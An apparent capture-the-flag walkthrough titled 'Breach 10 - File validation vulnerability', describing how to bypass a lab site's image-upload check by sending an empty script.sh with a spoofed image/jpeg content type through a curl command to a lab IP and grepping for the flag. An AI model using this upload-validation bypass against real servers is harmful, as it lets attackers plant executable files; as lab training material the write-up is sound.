 # Breach 10 - File validation vulnerability
- On the "HOME" page scroll down almost to the buttom
- Click the "ADD IMAGE" button
- On the "FILE UPLOAD" page, inspect the submit form in the source code
- In the command line, create an empty file that could potentially contain malicious script as follows
    ```sh
    touch script.sh
    ```
- Using inspected submit form parameters, send the request through the curl command line utility with the appropriate IP address as follows to get the flag
    ```sh
    curl -s --form "uploaded=@script.sh;type=image/jpeg" --form Upload=Upload "http://10.12.1.129/?page=upload" | grep "flag"
    ```

